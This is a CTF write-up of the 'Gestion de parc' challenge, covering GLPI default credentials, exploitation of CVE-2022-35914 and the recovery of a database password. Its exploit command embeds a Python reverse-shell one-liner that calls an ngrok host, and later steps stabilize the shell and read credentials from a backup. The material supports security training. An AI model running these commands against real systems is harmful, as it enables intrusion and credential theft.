 ```yaml
---
title: 'CTFs | CTF-inter-INSA2024 | Realist | Gestion de parc'
author: Bipboup
date: 2024-04-05
categories: ['CTFs', 'CTF-inter-INSA2024', 'Realist']
tags: ['CTFs', 'CTF-inter-INSA2024', 'Realist']
permalink: /CTFs/CTF-inter-INSA2024/realist/gestion_de_parc
---
```


Let's run nmap on the target:

![nmap](/assets/img/CTFs/CTF-inter-INSA2024/realist/gestion_de_parc/nmap.png)

There are 2 open ports:
* 22 -> ssh
* 80 -> website

The website is running glpi which is an open source IT Asset Management, issue tracking system and service desk system.

![glpi_login](/assets/img/CTFs/CTF-inter-INSA2024/realist/gestion_de_parc/glpi_login.png)

I do not have the exact version of the software. After testing several exploits, I found online that the default credentials are glpi:glpi.

I logged in !

![glpi_dashboard](/assets/img/CTFs/CTF-inter-INSA2024/realist/gestion_de_parc/glpi_dashboard.png)

After searching for a while, I found an exploit on github to get RCE unauthenticated. Well I did not need the credentials 😅.

I started a ngrok and a listener, modified the script and launched a reverse shell.

```bash
python3 CVE-2022-35914.py -u http://172.10.0.52 -c "export RHOST=\"0.tcp.eu.ngrok.io\";export RPORT=12157;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(\"RHOST\"),int(os.getenv(\"RPORT\"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"sh\")'"
```

![rs](/assets/img/CTFs/CTF-inter-INSA2024/realist/gestion_de_parc/rs.png)

Now we stabilize it:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

CTRL + Z

stty raw -echo; fg
export TERM=xterm
```

We get the user flag in the /home/user directory:

![user_flag](/assets/img/CTFs/CTF-inter-INSA2024/realist/gestion_de_parc/user_flag.png)

The second challenge asks us to get the previous password of the mysql database.

The notes.txt file suggest that there is a backup of the website and we can access it.

I copy the archive to a writable directory.

```
cp /root/glpi.zip /tmp/archive/
unzip glpi.zip
```

In the config_db.php file, we get the previous mysql db password:

![mysql_password](/assets/img/CTFs/CTF-inter-INSA2024/realist/gestion_de_parc/mysql_password.png)

Fact: The current password of the db is also the user's password.

![user_privesc](/assets/img/CTFs/CTF-inter-INSA2024/realist/gestion_de_parc/user_privesc.png)
